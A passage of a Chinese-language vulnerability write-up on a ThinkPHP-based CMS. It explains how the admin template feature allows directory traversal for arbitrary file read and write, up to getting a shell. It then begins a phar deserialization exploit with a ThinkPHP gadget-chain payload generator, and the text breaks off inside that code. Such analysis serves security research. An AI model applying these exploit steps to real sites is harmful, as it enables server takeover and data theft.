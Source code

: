 逻辑很简单，通过post或者get得到path变量，然后就是拼接到一个目录的最后面，因此可以目录穿越。但是有个限制：

```php
        if (!file_exists($rootpath) && !preg_match("/theme/", $rootpath)) {
            throw new HttpException(404, 'This is not file');
        }
```

第二个正则匹配没有影响，因为前面的拼接部分本来就有。但是第一个`file_exists`要求文件必须是已存在的。

然后就是2种利用，如果请求方式是post，那就对这个已存在的文件判断是否可写，可写的话就任意写入：

```php
if (is_writable($rootpath)) {
    $html = file_put_contents($rootpath, htmlspecialchars_decode(Request::param('html')));
}
```



因此可以找个几乎没影响的已存在的php文件进行写入，即可`getshell`。

如果请求方式不是post的话，就是读取这个文件了：

```php
            if (is_readable($rootpath)) {
                $html = file_get_contents($rootpath);
            }
```

实现任意文件的读取。

所以说后台的模板功能不做限制真的是各种利用。



## phar rce 1

在模板这里我发现文件操作函数的前部分都不可控，所以没法phar。但是`application/admin/controller/Template.php`的`filelist`函数中出现了`Admin.php`的`getTpl`函数。我跟进一下`Admin.php`发现里面也都是关于文件操作的，而且可以phar反序列化，非常好用。

第一个phar是在`application/admin/controller/Admin.php`的`scanFilesForTree`方法：

```php
    public function scanFilesForTree($dir)
    {
        $files = [];
        if (is_dir($dir)) {
```

没啥好说的，get传`$dir`，然后直接一个`is_dir`成功phar反序列化。



攻击：

先生成phar：

```php
<?php
namespace think\process\pipes {
    class Windows
    {
        private $files;
        public function __construct($files)
        {
            $this->files = [$files];
        }
    }
}

namespace think\model\concern {
    trait Conversion
    {
    }
```